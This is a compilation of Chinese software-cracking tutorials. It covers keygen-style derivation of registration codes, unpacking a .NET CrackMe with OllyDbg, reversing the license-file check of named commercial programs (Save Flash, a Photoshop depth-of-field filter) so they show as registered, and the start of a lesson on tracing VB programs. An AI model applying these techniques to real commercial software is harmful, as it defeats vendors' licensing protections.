例如，我用一个名称作为注册名进行注册，经过运算得到：01014860 92 A7 C2 3F CA 1C D5 DC 2C C1 08 E6 10 4B D4 22。字符化后，取其前24位，相当于运算结果的：01014860 92 A7 C2 3F CA 1C D5 DC 2C C1 08 E6。利用这12个字节的数据进行查表，可以得到：92->82，A7->17，C2->1D，3F->47，CA->4E，1C->60，D5->47，DC->48，2C->4F，C1->E7，08->10，E6->20，则注册码的前24位为 82171D474E6047484FE71020。再在这个字符串的后面随意加上8位数字，作为注册码重新输入。确认后，会立即弹出消息盒，告诉你校验码是什么。将这两部分组合起来，就是真正的注册码了。费了这么半天劲，听起来是不是有点乱？下面来理一下头绪。

首先，利用这个软件自身不能爆出注册码来。利用上面的方法进行爆破，可以得到中间的计算结果。其次，在得到了中间结果之后，采用查表的方法，可以得到注册码的前24位。最后，在这24位结构的后面随意添加8位数字（为什么？安全！），作为注册码重新输入，可得到8位的校验码。将它们组合起来，就得到了真正的注册码啦。呵呵，这是为了完美注册，所以有些烦。不想这么烦，直接爆破得了。有朋友问，你那添加的代码是什么？不好意思，就是让软件给出提示的消息盒（API）。其汇编原型为：对照我的说明，应该不难明白的。上面所说的其实就是添加功能的爆破示例。使用类似的方法还可以添加一些其它功能，这里就不多说了，实验几次，你就会掌握的。想当年我玩游戏《盟军敢死队》，每次启动都有一个“游侠网”启动封面，羡慕不已，纳闷不断。其实，现在明白了……今天又吹得差不多了，该收场了。各位慢玩，我睡觉去也！

适合读者：破解爱好者  
前置知识：.net

## 手把手教你 .net 程序加解密之四


## .net 手把手教你加解密

文/图 tankaiha

本文是《手把手教你 .net 程序加解密》系列的第四篇，这次的内容与过去三篇相比稍微深入一些，讲的是 .net 程序的一般脱壳方法。壳是什么，想必各位加解密爱好者都已知道，不过 .net 下的壳与传统 Win32 的壳相比，有其特殊性：一是目前 .net 的壳集成度没有 Win32 高，因此强度也差一些。

二是 .net 独立的框架又决定了它的脱壳过程有其自身特点。这次，我们以 KC 的 .net CrackMe 系列的 #4 作为研究对象，而 #3 由于与 #2 的难度差不多，只是混淆得更复杂一些，相信能解决前两个 CrackMe 的读者也一定能解决 #3 的。

## .net 壳的分类与检测

.net 的壳从不同的视角看，有不同的分类方法。从加密的方法看，有纯压缩壳和加密壳。纯压缩壳以压缩原文件为主，兼有简单的加密功能；而加密壳目前产品较少，主要以挂钩内核为主，且文件体积会变大。从加密完的文件来看，又可以分为两种：一种是文件仍然是 .net PE 格式，但由于被加壳或加密，因此数据不全，在反编译时往往会出现错误，文件结构软件（如 PEiD）检测为 .net PE 文件；二是文件结构软件检测为本地软件编写的程序，这类程序往往是伪装为 Win32 壳的 .net 壳加密，软件介绍中写明要求安装 .net Framework。

下面我们一起来看看如何用 PEiD 检测被加壳的文件是 Win32 的还是 .net 的。通常来说，PEiD 可以自行分辨，但有时 PEiD 的数据库很久未更新，而被检测的文件格式较新，则不一定能自动检测出来。

用 PEiD 载入这次的目标 CrackMe #4，显示编写语言为“Borland Delphi 6.0-7.0 [Overlay]”，如图1所示。按照前面的准则，当一个已知需要 .net 的程序检测为 VC 或是 Delphi 等这类非 .net 语言编写时，往往就说明它是被加了壳的。


图1 CrackMe #4 的 PEiD 检测信息

Win32 程序和 .net 程序的另外一个很大区别是，.net 程序的入口表中只含有一个导入的 DLL：mscoree.dll，一个导入函数：_CorExeMain。而本地 Win32 程序往往含有多个导入 DLL 和函数，至少也有 kernel32.dll 和 user32.dll。用 PEiD 载入 CrackMe #4，点击“Subsystem”右方的按钮，在弹出窗口中再点击导入表“ImportTable”右方的按钮，便可查看文件的导入表，如图2所示。

##### 利用工具脱壳

CrackMe #4 被加的壳是 Whole Assembly Protection，也就是将原可执行文件整体加壳压缩保护，运行时在内存中释放出整个程序集。这种程序最大的弱点就是由于整个原程序集存在于内存中，可以轻易地被工具或者手动 dump。学习这种脱壳，可以为以后脱更复杂的壳打好基础。下面我们来看下如何利用工具脱壳。


图2 .net 可执行文件的导入表

我们使用的工具是 NET Unpack，专门用于脱 Whole Assembly Protection 的壳。首先运行 CrackMe #4，然后运行 NET Unpack，选中要脱的进程，然后 dump。成功后会提示有14个 .net 可执行文件从内存中 dump 下来，如图3所示。


图3 NET Unpack 脱壳时成功的提示

如果提示为0，说明程序用了其它的保护方式。这里提示14个文件，那到底哪个文件是我们需要的原程序呢？将14个文件按大小排序，发现这么多文件本质上只是四个文件，大小分别为：125KB、64KB、18KB 和 6KB，如图4所示。


图4 dump 出14个可执行文件

按顺序用 Reflector 载入，最后发现18KB大小的文件才是 CrackMe #4 的真身，而其它文件只是加密用的库文件，如图5所示。算法部分我就不分析了，下面接着看手动脱壳。

##### 手动脱壳

自动脱壳虽然方便，但在遇到一些未知壳，或者通用脱壳机失效时，最终还得手动脱壳。因此，这也是解密必备技巧之一。手动脱壳的基本原理是，通过 OllyDbg（或其它调试软件），在 .net 内核载入完整的原程序后，中断下来，判断出原程序在内存中的地址，并 dump 之。关于 .net 内核的知识，有机会以后再深入介绍，这次大家先了解一点必备知识即可。

首先运行 CrackMe #4，跳过最开始的 Nag 窗口后，来到主界面。此时运行 OllyDbg，并 Attach 到 CrackMe 的进程上，如图6所示。


点击“附加”以后，程序便会中断下来。这时，我们要找到 CrackMe 的真身在内存中的位置。怎么找呢？在 .net 内核中，有一个 compileMethod 函数，它的原型如下。

```cpp
CorjitResult __stdcall FJitCompiler::compileMethod(
  ICorJitInfo* compHnd, /* IN */
  CORINFO_METHOD_INFO* info, /* IN */
  Unsigned flags, /* IN */
  BYTE** entryAddress, /* OUT */
  ULONG* nativeSizeOfCode /* OUT */
);
```

其中第二项参数指向 CORINFO_METHOD_INFO。这个结构的第三项数据为 IL 的内存地址，第四项为 IL 方法体的大小。每一个 .net 方法的编译都要通过 compileMethod 的调用。最重要的是，作为一个正确的 .net 可执行程序，IL 代码被保存在 .text 节中，那么，找到了 IL 在内存中的位置，也就找到了原程序在内存中的位置。

现在我们的思路很清楚了，中断在 compileMethod 处，查看 IL 的内存地址。在 Windows XP SP2 + .net Framework 2.0 的环境下，compileMethod 的内存地址为 7906E7F4，因此，直接用 OllyDbg 中断在此处，然后点击 OD 中的运行，让程序不再中断，此时点击 CrackMe 中的 Register 按钮。由于 Register 事件是第一次点击，它的代码会被 .net 内核进行编译，自然会中断在我们刚才下的断点上。这时，栈中的第四项为 0012D4F0。在数据窗口中显示该处的内容，便会显示出 CORINFO_METHOD_INFO 结构，其中第三项值为 03930D5A，如图7所示。


继续跟踪 03930D5A 的内容，并向上显示到 03930000，可以找到经典的 PE 文件 DOS 头标志。剩下的就不多说了，在 OllyDbg 中切换到 Memory 模块，并将 03930000 开始的一段内存保存为数据文件。默认的文件名是 .mem，改为 .exe，就可以用 Reflector 加载了。检查一下，是不是 CrackMe #4 的原程序呢？

##### 小结

本次内容就这么多。小结一下，这次我们学习了 .net 下一般壳的脱壳方法。用工具脱壳自然是最方便的，但在遇到工具脱不了的时候，也可以用挂钩 compileMethod 的方法手动脱壳。本次我们接触了一点 .net 内核的知识，但并没有深入，有机会的话，会在以后的文章中介绍 .net 内核的更多知识。为了方便大家学习，本文我制作了操作录像，不明白之处可以多看看录像。

适合读者：破解爱好者  
前置知识：汇编语言

#### 小菜鸟破解之六：例说软件插件的跟踪分析方法

文/图 laoxuetong


##### 关于插件

Crack Fans 对于插件应该不会陌生，很多软件都支持插件。例如，我们天天上网用的 IE 就支持插件，使得闹得沸沸扬扬的流氓软件能很容易地注册到 IE 中；而我们的得意助手 OD 更是支持插件。很多编程高手专门为 OD 编写了大量各种插件供我们使用，才使得我们的“工作”游刃有余。

插件是什么？插件其实就是一个可执行文件。正因为插件是可执行文件，所以我们才可以使用 OD 来跟踪调试它。大多数情况下，插件不同于常见的 exe 文件，一般不能够单独执行，运行时需要“宿主”程序。常见插件的表现形式为 dll，当然也可以是其它扩展名，具体该用什么名称，视宿主程序的要求而定，不能一概而论。

因为插件不能单独运行，所以插件的调试方法也就不能和一般软件的方法完全相同，具体需要思考的问题是：

- 插件不是软件的必须部分，软件在什么时候需要调用它，采用什么方式调用。
- 什么时候能够看到插件，怎么进入插件“领空”。
- 有了插件后如何下断点，如何寻找定位点。
- 如果需要对插件进行“下手”，应该如何操作，需要注意什么。

以上的问题对于比较熟悉的同行来说，可能不是什么问题，而对于初学者来说可能就完全无从下手了。虽然上述问题的处理方法可能因人、因对象而异，但大多数情况下还是可以找到一些规律的。

DLL 类型的插件加载方式一般是用 API 函数来操作，宿主程序需要知道插件放在什么地方（宿主程序事先可不知道谁在什么时候会给它什么插件），所以这时候宿主程序需要进行目录查找操作，然后组建路径文件名，再行加载。故而，API 函数 GetWindowsDirectory、GetSystemDirectory、GetCurrentDirectory、GetFullPathName、GetModuleFileName、LoadLibrary、LoadLibraryEx、LoadModule 等是常用断点，通过这些 API 函数可以清楚地看到 DLL 的加载过程。

DLL 被加载后，一般情况下软件可以采用标准函数调用方法来调用 DLL 中的函数或过程。然而插件是办不到的，因为宿主程序事先并不知道 DLL 中有哪些函数，该如何传递参数（这跟事先知道接口再进行编程存在很大差异），所以这里就不能按照普通软件的 DLL 跟踪方法来进行（除非你是一个宿主程序开发高高手，对未来世界有先见之明）。

怎么办呢？静观其变，以不变应万变。首先，用 OD 加载宿主程序（宿主程序是谁啊？呵呵，谁调用插件就是谁了），用 Alt+E 来查看可执行文件的加载情况。如果已经加载（一般是不可能的，为什么？），先选择对应条目，在其上单击鼠标右键，在弹出菜单上选择“跟随入口”，即可进入插件领空。如果插件没有被加载，运行软件后，再用 Alt+E 的方式来完成刚才的描述过程。进入 DLL 领空后，对其内部的分析跟踪等思维方法就几乎相同了，发挥你才能的平台已经搭建成功。

一些插件制作者为了保护自己的成果，可能会用很多方法对代码进行加密，让跟踪者找不出头绪来。所以，即使进入了插件的代码区，如何分析和跟踪，依然需要勤思、善辨、敏锐的观察力和坚韧不拔的毅力。

##### 范例练习

【范例1】Save Flash，下载地址：http://www.saveflash.com/。

Save Flash 可以保存你喜爱的 Flash 动画，保存时可以显示文件信息，包括 Flash 文件大小、URL 和文件名。这个软件安装后，在安装文件夹里主要有四个对象，其中 SaveFlash.dll 就是插件，不能够单独运行。CloseIEAndShowToolbar.exe 按名称易知是将插件注册给 IE 使用的（如果哪一天插件断线了，就该使用它了）。该插件支持多语言，其中包括繁体中文，但不支持简体中文。如果需要，你可以使用文本编辑器将任意一个语言文件中的对应内容翻译成简体中文，并保存为“简体中文.lng”，重新选择支持的语言即可汉化。

我们用 OD 载入 IE（记得插件调试应该从宿主程序入手），使用 Alt+E，观察“可执行模块”窗口中的内容时，还看不到 SaveFlash.dll。代码如下。


以上内容我作了简单调整，实际显示内容不止于此。究其原因，SaveFlash.dll 不是 IE 的“自己人”，OD 事先无法知道 IE 是否使用它。按 F9 运行 IE（保持可执行模块窗口在前），一会工夫，窗口里逐渐增加加载的插件显示，SaveFlash.dll 也被载入（如果你没有看到，拖动滚动条）。这部分描述如下。


我们需要的关键信息全部在此。对于我们来说，更需要注意的是入口。再在可执行模块窗口这一行上单击鼠标右键，弹出如图1所示的菜单，选择“跟随入口”即可进入 SaveFlash.dll 的领空（即汇编代码区展示的是 SaveFlash.dll 中的内容）；如果选择“查看可执行文件”，其效果相当于用 WinHex 打开 SaveFlash.dll；如果选择“查看全部资源”，则可以看到各资源 ID 的情况；如果选择“查看资源字符串”，则可以看到能够搜索到的全部字符资源，但显示方式不同于在汇编代码区搜索的情况。应该选择使用什么，自由度比较大，完全看你个人的需要和兴趣。


图1

这里我们选择“查看资源字符”，在弹出的字符资源窗口里上下翻查，可以看到一些与注册有关的信息，但似乎作用不大。回头重来，选择“跟随入口”，即进入 SaveFlash.dll 的领空再说。在 SaveFlash.dll 中再搜索字符资源，上下翻看后最终定位于下面的代码处。

```asm
0015ABB1 PUSH SaveFlas.10050B90    ; ASCII "Register Save Flash -- Error"
0015AC41 PUSH SaveFlas.10050B60    ; ASCII "Not correct registration number"
```

> 这里的偏移地址是会重复的，所以你模仿跟踪时不要用前往方法去定位字符串，而应该用“搜索字符”的方法进行。好，现在我们跟随到区域这里看看基本情况，并简要地分析一下。

```asm
01BD5A2C MOV EAX,SaveFlas.01C00DAA
01BD5A31 CALL SaveFlas.01BFAD78
01BD5A36 PUSH ECX
01BD5A37 PUSH ECX
01BD5A38 PUSH EBX
01BD5A39 PUSH ESI
01BD5A3A MOV ESI,ECX
01BD5A3D LEA ECX,DWORD PTR SS:[EBP-10]
01BD5A40 CALL SaveFlas.01BD56F8
...
01BD5A67 MOV EBX,DWORD PTR SS:[EBP-10]
01BD5A6A PUSH EBX
01BD5A6B CALL SaveFlas.01BC3F2F
...
01BD5A74 JE SHORT SaveFlas.01BD5ABB
```

```asm
01BD5A77 PUSH 2001D
01BD5A7C PUSH EDI
01BD5A7D PUSH EDI
01BD5A7E PUSH SaveFlas.01C10B3C    ; "SOFTWARE\\Microsoft\\MSPBF$\\RT98"
...
01BD5A93 PUSH 1
01BD5A95 PUSH EBX
01BD5A96 PUSH SaveFlas.01C10B34    ; "server"
...
01BD5AA7 PUSH EAX                  ; Result
01BD5AA8 PUSH DWORD PTR DS:[ESI+4] ; hWnd
01BD5AAE CALL DWORD PTR DS:[<&USER32.EndDialog>]
...
01BD5ABB MOV WORD PTR DS:[ESI+30],1
01BD5ABE PUSH SaveFlas.01C10390    ; Title "Register Save Flash -- Error"
01BD5AC4 PUSH SaveFlas.01C10B60    ; Text "Not correct registration number"
01BD5ACC CALL DWORD PTR DS:[<&USER32.MessageBoxA>]
...
01BD5AE1 CALL DWORD PTR DS:[<&USER32.EndDialog>]
...
01BD5AFF RETN 10
```

通过上面代码的简要分析，确定爆破的方法已在掌握之中。如果还想进一步分析与观察，可在我做出说明的地方进去看一看。

这里透露一些消息：注册验证方法很简单，软件内置了20多个注册码，只要有一个相同就行了。一些软件的注册表操作也很特别，不保存注册码，保存的是一个标志性的字符串。具体情况作为练习留给大家，我就不再多加分析了。

复习一下，跟踪调试插件要在宿主程序的环境下进行，直接使用加载插件的方法一般不太可行，所以需要找到宿主程序。插件 OD 事先不知道，故开始看不到，需要按 F9 运行后才行。使用 Alt+E 打开可执行模块窗口，然后使用右键菜单“跟随入口”进入插件模块，以后所有的分析研究都在模块中进行。在使用宿主程序的帮助进入插件模块后，过去教程中的分析、查找和下断点的方法基本适用。之所以说是基本适用，请注意：通常 DLL 中存在“重定位”问题（是一个较高级一些的话题），很多情况下不能使用偏移地址的方法定位上次跟踪的位置——留心我的“风格”，它会帮你不少的忙！

## 范例2：Depth Of Field Generator PRO

下载地址：http://www.dofpro.com/。

Depth Of Field Generator Pro 是一款高质量的 PhotoShop 景深插件。它通过 Z-Depth 通道信息来制作精确的景深效果，提供了光圈形状、大小、方向、曲线、缩减边缘、景深贴图编辑生成、高亮增益等多种控制功能。

看着介绍，心中直痒痒。想当年自己10年前就爱玩 PhotoShop，无奈无艺术细胞，改为求助滤镜。虽说比直接使用滤镜制作进步不少，又无奈英文太差，常常看不懂意思，故而改行学汉化。到汉化新世纪呆了一段时间，汉化技术学了一点皮毛，人也就变得“农不农，秀不秀”了。PhotoShop 没学好，汉化因英文问题也常半路撂挑子。而大多数的第三方滤镜都是要注册的，麻烦也就跟随而来。其实，偶的破解技术也就是这么被逼出来的。

言归正传。PhotoShop 的滤镜基本上以扩展名 .8bf 类型为主，你只要使用 WinHex 打开看一下，便会猜测到应当属于 DLL 类型，如图2所示。

PhotoShop 是它的宿主程序。使用 OD 载入 PhotoShop，按 F9 运行 PhotoShop，按 Alt+E，怎么不见这个插件呢？不动脑筋不是？你不打开一个图片，滤镜菜单能用吗？打开图片文件后，Alt+E，咦，还是没看见插件呀？

你知道 PhotoShop 能使用多少个插件吗？呵呵，我也不知道，但我知道它是上不封顶、下不保底的。如果一起加载进来，只怕你那“宝贝”疙瘩立马就要死翘翘了。PhotoShop 很乖，就像现在的家长养独生“儿子”似的，你要什么才给你什么，没要求的不给，以便空仓！Oh, I see，原来还需要在菜单中选择我们这个滤镜才行。选择滤镜菜单中的对应滤镜，如图3所示。待滤镜设置界面出现后，再使用 Alt+E，嗯，滤镜模块确实出现了。然后再……“别说了，以后的操作我已经知道了，我来做练习！”


图3

“啊，好的，好说。”

过去很多的滤镜都是英文的，而且大多数为非标准字符串资源。汉化只能使用十六进制编辑器进行，每汉化一个滤镜需要花费很多的精力。而非标准资源往往预留的长度不足，使得汉化之后不能正确显示，常常需要使用“乾坤大挪移”之法加以解决，需要花不少的心思和技巧。最典型的就是 OK 的汉化。还有……

“哎哎哎，别说了，我犯糊涂了，什么也没有找到，连插件上输入注册信息的地方都没见着，只看到如图4和图5所示的两处可用信息。”


图2


图4

图5

既然有“DEMO”（演示版）字样，说明存在判断和这个字符串。有 Request Code（必需的代码），说明存在计算对应机器码的代码，或者是内置的一个固定编码字符串。对于字符串 DEMO，或许也可能是采用数组动态赋值的方法，按 ASCII 码值查找常数的方法试试看。

继续滤镜汉化，还有可能需要调整语系和字体大小，以使得显示较为美观。如果……

“别如果了，我投降，什么也没找到，找到的都不匹配。”

那么说还是需要我来上阵？记住，路是死的，人是活的。价格总是围绕价值上下波动的……（打住，你扯远了，没让你给我讲政治经济学原理！）

我说了政治经济学原理了吗？呵呵，打个比方嘛。我说的是不能一成不变，要在基本路线的左右进行创新。看看我的伎俩（伎俩？应该是技术才合韵啦？）

搜索字符串资源，找到一个……（满脸通红 ing）。唉，还真的是什么也没发现！怎么办，我下载的该不会就是一个“演示版”的滤镜吧？可是那个 Request Code 就在眼前，该怎么说呢？

重新理一下思路。如果真是演示版，搜索字符串 DEMO 应该能找到，除非加密了；Request Code 如果是软件内带的，应该可以看到对应的字符串，或者是动态给数组赋值，当然也可能被加密过。如果滤镜可以注册（即是可注册版），又没有输入注册信息的位置，则是文件注册的可能性较大，当然也可能是新的 DLL；但那个 Request Code 反而不好解释了。如果使用通用的 DLL 注册，必然导致满世界都注册了。如果使用定制的 DLL，这滤镜作者恐怕没时间再搞什么开发了。

臆断结论：文件注册的可能性很大，只不过没有找到关键代码而已。

为了做到心中有数，使用资源编辑器 ResScope 打开这个滤镜，可看到如图6所示的内容。上下滚动着翻看了一遍，没发现什么有用的线索，不过也让我好生奇怪。以往在汉化滤镜时，界面的英文大多是 ASCII 码的，现如今连 Unicode 代码也没见，所以 FMCODE 最值得怀疑。对，就从它下手试试看。


图6

用 OD 重新载入 PhotoShop，下拦截加载资源的断点应该在什么位置下断，该明白了吧？如果不明白，在滤镜内搜索 FMCODE 吧。很多的！运行后会来到这里（心理暗示：滤镜中的代码比较啰嗦的）。

```asm
0AB8929A  PUSH 84
/ResourceType = FMCODE
0AB8929F  PUSH 84
/ResourceName = 84
0AB892A4  PUSH EAX
hModule=>0AB70000
0AB892A5  CALL DWORD PTR DS:[<&KERNEL32...>]
...
ASCII "Could not find FMCODE 132 resource"
...
ASCII "FMCODE too short, %d bytes"
...
ASCII "Could not load FMCODE 132 resource!"
...
```

```asm
0AB89325  PUSH ...
ASCII "Could not lock FMCODE resource."
0AB8932A  CALL ...
...
0AB8933A  PUSH EBX
0AB8933B  CALL DWORD PTR DS:[<&MSVCRT.malloc>]
...
0AB89348  TEST EAX,EAX
0AB8934A  MOV EBP,EAX
0AB8934C  JNZ SHORT ...
...
ASCII "Could not allocate %d bytes for FMCODE resource."
0AB89354  CALL ...
0AB89363  RETN
```

```asm
0AB893A3  ADD EBP,14
0AB893A6  SUB EBX,14
0AB893A9  CMP ECX,0A
0AB893AC  JNZ SHORT ...
```

以下部分进行指针转换。

```asm
0AB894C0  MOV EAX,DWORD PTR DS:[ESI]
0AB894C2  SUB EBX,1C
0AB894C5  SUB EAX,1C
0AB894C8  ADD EBP,1C
0AB894CB  CMP EAX,EBX
0AB894CD  JG ...
0AB894D3  DEC ECX
0AB894D4  CMP ECX,8
0AB894D7  JA ...
```

以下部分转移已解密的数据。这其中注意以下几个问题：

- 一是数据转移的目的地（关键识别点，跨段且重定位地址会变化）；
- 二是数据的内容（找不到的代码和字符串）；
- 三是循环次数（跑飞就看不到了）。

上面的过程都算作准备阶段，下面的部分才是对 FMCODE 段进行操作的关键（因代码太多，不得不省略一部分）。

```asm
0AB89364  MOV ECX,EBX
0AB89366  MOV EDI,EAX
0AB89368  MOV EDX,ECX
0AB8936A  SHR ECX,2
0AB8936D  REP MOVS DWORD PTR ES:[EDI],DWORD PTR ...
0AB8936F  MOV ECX,EDX
0AB89371  AND ECX,3
0AB89374  TEST AL,3
0AB89376  REP MOVS BYTE PTR ES:[EDI],BYTE PTR ...
0AB89378  JE SHORT ...
ASCII "FMCODE is not dword-aligned."
...
0AB89390  CALL ...
0AB89395  ADD ESP,4
0AB89398  TEST EAX,EAX
0AB8939A  JE ...
0AB893A0  MOV ECX,DWORD PTR DS:[ESI+4]
```

```asm
0AB895E4  MOV ECX,EAX
0AB895E6  MOV ESI,EBP
0AB895E8  MOV EDX,ECX
0AB895EA  SHR ECX,2
0AB895ED  REP MOVS DWORD PTR ES:[EDI],DWORD PTR ...
0AB895EF  MOV ECX,EDX
0AB895F1  AND ECX,3
0AB895F4  REP MOVS BYTE PTR ES:[EDI],BYTE PTR ...
```

通过了这段代码后，滤镜已经将 FMCODE 进行解密，并释放出所有的字符串资源，后面会将这些资源与滤镜的操作界面连接起来。之后，滤镜会运行到这里。

```asm
0AC89C0A  PUSH EAX ; phandle
0AC89C0B  PUSH 20019 ; Access = KEY_READ
0AC89C10  PUSH 0 ; Reserved
0AC89C12  PUSH ECX ; Subkey
0AC89C13  PUSH ESI ; hKey
0AC89C14  CALL DWORD PTR DS:[<&ADVAPI32.RegOpenKeyExA>]
```

接下来是注册表操作，看堆栈中的内容。

| 地址 | 值 | 含义 |
|---|---|---|
| 0012BD40 | 80000002 | hKey = HKEY_LOCAL_MACHINE |
| 0012BD44 | 0AC9C5F0 | Subkey = `System\\CurrentControlSet\\Control\\ComputerName\\ComputerName` |
| 0012BD48 | 00000000 | Reserved = 0 |
| 0012BD4C | 00020019 | Access = KEY_READ |
| 0012BD50 | 0012BD58 | phandle = 0012BD58 |

显然，是打开 `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\ComputerName\ComputerName`。到注册表中去一看，呵呵，原来是要读取我的计算机名称，代码如下。

```asm
0AD89DF2  PUSH EAX            ; lpBufSize
0AD89DF3  LEA  ECX,[ESP+28]   ; lpData
0AD89DF7  PUSH EDX            ; Buffer
0AD89DF8  PUSH ECX            ; lpValueType
0AD89DF9  PUSH 0              ; Reserved=NULL
0AD89DFB  PUSH EDX            ; ValueName
0AD89DFC  PUSH EDI            ; hKey
0AD89DFD  CALL [ADVAPI32.RegQueryValueExA]
```

再看堆栈中的内容。

```asm
0012BD28  00000250   ; hKey=250
0012BD2C  0AD9C5F0   ; ValueName="ComputerName"
0012BD30  00000000   ; Reserved=NULL
0012BD34  0012BD64   ; pValueType=0012BD64
0012BD38  01BE8940   ; Buffer=01BE8940
0012BD3C  0012BD50   ; lpBufSize=0012BD50
```

将转存切换到 01BE8940，读取的结果会放在那里。不难想象，滤镜要对它进行计算了。缓慢跟踪后，来到下面的代码处（请只看汇编代码，别看地址，注意明显跨段）。

```asm
0AE3EF44  LEA ESI,[EBP-8]
0AE3EF47  MOV ESI,[ESI]
0AE3EF49  MOV EDI,[ESI+9F78]
...
0AE3F120  IDIV ECX
0AE3F122  MOV EDI,EDX
0AE3F124  MOV [ESI],EDI
...
计算的结果 04CF8B2B = 80710443
```

```asm
0AE3F147  MOV DWORD PTR SS:[EBP+C],EDX
保存
```

以上部分省略了大部分代码。今天我们不谈算法，只说结果：通过上面对电脑名的计算得到整数数据 80710443，它就是我们在界面上看到的 Request Code。此时我们已工作于解密了的代码中。之后，我们又会来到这里。

```asm
0AE402B8  CALL ESI        ; 组合路径+注册文件名
0AE402BA  ADD ESP,8
0AE402BD  MOV ESI,EAX
...
0AE402EA  CALL EDI        ; 打开注册文件
```

这里的路径就是滤镜所在的目录，注册文件名由解密得出（所以找不到，名称为 dofpro.lic）。文件被打开后，会做出一些判断，如下面的代码。

```asm
0AE4040E  LEA ESI,[EBP-38]
0AE40411  MOV ESI,[ESI]
0AE40413  MOV EDI,0A      ; '\n'
0AE40418  CMP ESI,EDI
0AE4041A  SETNE AL
0AE4041D  MOVZX ESI,AL
0AE40420  CMP ESI,0
0AE40423  JE 0AE40639     ; 不等则跳
```

这里为什么会出现这个判断呢？原来，软件在将注册文件读入内存时碰到了换行符 `0x0D0x0A`，自动将其替换为 `0x0A`，而不是我们知道的用“\0”作为结束符。

```asm
042255B8  6C 61 6F 78 75 65 74 6F 6E 67 0A 31 30 ...
042255C8  ...
042255D8  ...
042255E8  ...
```

而由上面的判断过程可知，软件并不判断读取的字符是否为空，只是判断上一次读取的是否为 `0x0A`，只要是 `0x0A` 则计算结束，故而计算次数比名称长度多 1（判断上次读取，计算本次读取）。

文件的格式，你需要耐心跟踪才能知道。

经过了这里，后面就是计算与判断了。其中 `10485243-149028864-4137418-7458788-4044800` 是由 Request Code 和注册名称计算而来，`27946a` 是固定的。如果你跟踪，应注意仔细辨认对应关系。

```asm
0AE4069A  CALL ESI
; 按格式读取注册文件中的注册码
0AE4069C  ADD ESP,24
0AE4069F  MOV ESI,EAX
0AE406A1  LEA ESI,DWORD PTR SS:[EBP-40]
0AE406A4  MOV ESI,DWORD PTR DS:[ESI]
0AE406A6  LEA EDI,DWORD PTR SS:[EBP-54]
0AE406A9  MOV EDI,DWORD PTR DS:[EDI]
0AE406AB  CMP ESI,EDI
0AE406AD  SETE AL
0AE406B0  MOVZX ESI,AL
0AE406B3  CMP ESI,0
0AE406B6  JE 0AE407A4
...
0AE40722  JE 0AE4077C
0AE40728  LEA ESI,DWORD PTR SS:[EBP-28]
0AE4072B  MOV ESI,DWORD PTR DS:[ESI]
```

```asm
0AE4072D  MOV EDI,6D2A
0AE40732  CMP ESI,EDI    ; 定值0x6D2A=27946比较
0AE40734  SETE AL
0AE40737  MOVZX ESI,AL
0AE4073A  CMP ESI,0
0AE4073D  JE 0AE40772
0AE40743  LEA ESI,DWORD PTR SS:[EBP-3C]
0AE40746  MOV ESI,DWORD PTR DS:[ESI]
0AE40748  MOV EDI,61
0AE4074D  CMP ESI,EDI    ; 字符a比较
0AE4074F  SETE AL
0AE40752  MOVZX ESI,AL
0AE40755  CMP ESI,0
0AE40758  JE 0AE40768
```

另外，比较验证时，读取注册文件中注册码的函数也跟大多数软件不一样。大多数读入的是字符串后再转换为整数，而这里是直接读成整数的。

好，现在我们知道了整个问题的答案了。软件采用注册文件形式注册，注册文件名称为 dofpro.lic。这是一个文本文件，第一行为注册名，第二行为注册码。Request Code（也就是机器码）是由电脑名计算而来，并参与了计算注册码的过程；注册码分为6段，其中前5段由注册名和机器码计算而来，第六部分是固定的。软件验证用的关键代码加密后作为资源形式存放在滤镜中，在需要的时候释放出来并解密。

跟踪这个 PhotoShop 滤镜是比较麻烦的，原因是将一些关键的东西给加密了。理论上这个实例不太适合初学者，但能够给菜鸟们提供更广阔的思维空间。如果你能跟踪下去，并能得出正确的算法分析，对于你的跟踪技术是大有裨益的。要知道，滤镜不是什么新鲜东西，但跟踪的技术教程却鲜见。探索新的领域，做别人所不能做（没做过）的事情，那就是创新，也需要一定的创新精神。看看胜利后的截图吧，如图7所示。嗯，已经不再是演示版，而是注册版了。


图7

记住我们今天的学习目的，那就是插件如何跟踪——从宿主程序着手！

惊堂木一声“啪”，要知后事如何，且听下回分解。

适合读者：破解爱好者

前置知识：汇编语言

#### 小菜鸟破解之七

## VB程序的跟踪与分析技术

文／图 laoxuetong


在以前的文章中我曾经说过，很多朋友都怕跟踪VB编写的软件，认为VB编写的程序代码太长，看不到所谓的关键代码，是垃圾代码等，究其原因有以下几点。

- 1) VB编写的代码被编译后，并没有将计算代码、事件处理代码以及属性设置代码等直接放在主程序之中，而是采用“委托”的方式交给了库函数进行处理。
- 2) VB在进行“委托”之前，常需要做出大量的工作以保证“委托”工作能够顺利进行下去。
- 3) VB中普遍使用Unicode编码方式，造成对关键字符串的搜索困难。
- 4) VB编译的东西一般不直接调用核心API，如有需要，通常也是通过库函数进行的（间接调用）。这样一来，很多熟悉操作在VB中无法直接看到，造成心理恐慌。
- 5) VB编写的代码经过编译后，很多的操作数据不能直接观察到，原因是VB通常不是使用指针，而是使用结构保存数据。VB操作数据时给出的是这个结构的头部，而不是数据本身的地址。

但我的感觉并不是那么难，VB的每一步操作都有明确的标志，函数名称在OD中一目了然，这些函数名称绝大多数与用VB编写程序时使用的函数同名，识辨比较容易，你只需要搞清楚具体的操作对象就行了。

当然，要知道是对谁进行操作，也不是随意就可以知道的，有时需要跟踪到库函数里面去，但不是每次都需要这么做。库函数也是代码的汪洋大海，如果每一行代码都进行跟踪，那也不是一个劳累的问题了。

确定下一步的操作方法前，不妨滚动看看，用以确定什么时候“步入”，什么时候“步过”。

平时掌握记忆一些函数的形式和意义也是很重要的。没有记忆的学习是不成功的，读书亦如此。何况有很多的函数在我们编程时可能没用过，或者是根本没有见过。

当然，也不是所有的都需要记忆，如果你略微有一点点英文底子，并略知编程，能做到见字思意，不记忆什么照样可以“开展工作”。不过，知识当然是越多越好的，这是真颠扑不破的真理。

##### 跟踪与分析技术

正因为有人觉得难，所以本文不采用别人的软件作为例子进行讲解，而是采用根据故事情节、自导自演的方法来进行，并且采用源代码、编译过程中的代码和编译后的代码相结合展示的方法来研究VB的跟踪技术问题。

###### [例1] 变量之间的数据传递

假设我们有三个变量，依次命名为b1、b2、b3，变量类型根据需要设置为Long型和String型。第一类，三个变量均为Long型，源代码如下。

```vb
Private Sub Command1_Click()
    Dim b1, b2, b3 As Long

    b1 = 12345678
    b2 = b1
    b3 = b2
    Text1 = b3
End Sub
```

